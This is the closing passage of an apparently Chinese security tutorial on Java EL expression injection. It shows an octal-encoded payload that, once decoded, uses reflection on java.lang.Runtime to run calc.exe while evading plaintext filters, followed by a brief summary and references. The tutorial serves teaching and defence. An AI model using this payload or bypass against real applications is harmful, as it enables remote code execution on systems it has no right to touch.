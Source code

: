 **利用八进制编码绕过**  
```
// 八进制编码内容为前面反射调用的PoC
\44\173\47\47\56\147\145\164\103\154\141\163\163\50\51\56\146\157\162\116\141\155\145\50\47\152\141\166\141\56\154\141\156\147\56\122\165\156\164\151\155\145\47\51\56\147\145\164\115\145\164\150\157\144\50\47\145\170\145\143\47\54\47\47\56\147\145\164\103\154\141\163\163\50\51\51\56\151\156\166\157\153\145\50\47\47\56\147\145\164\103\154\141\163\163\50\51\56\146\157\162\116\141\155\145\50\47\152\141\166\141\56\154\141\156\147\56\122\165\156\164\151\155\145\47\51\56\147\145\164\115\145\164\150\157\144\50\47\147\145\164\122\165\156\164\151\155\145\47\51\56\151\156\166\157\153\145\50\156\165\154\154\51\54\47\143\141\154\143\56\145\170\145\47\51\175
 
```  
  
  后续的这些编码绕过其实就是避免明文的过滤有很多类型就不举例了  
  
****  
**0x06小结**  
  
  EL注入的话原理很简单，需要利用的话主要是需要清楚el语法的写法和一些常规的bypass的手段，后续还有spel表达式注入漏洞等  
  
**参考：**  
  
EL表达式注入 – JohnFrod's Blog  
  
Java 之 EL 表达式注入 | 芜风 (drun1baby.github.io)  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/2RJibQNIqatRJWx9iadpWbjn2yEItXA84DsH8LK8IFtPTfOjlFoYLT7x9omh7JlF81oCLxIGGSwIzzUvvmroUcHA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
**扫码关注我们**  
  
  
   
微信号：hanlu_security  
  
 QQ交流群：553897268  
  
  
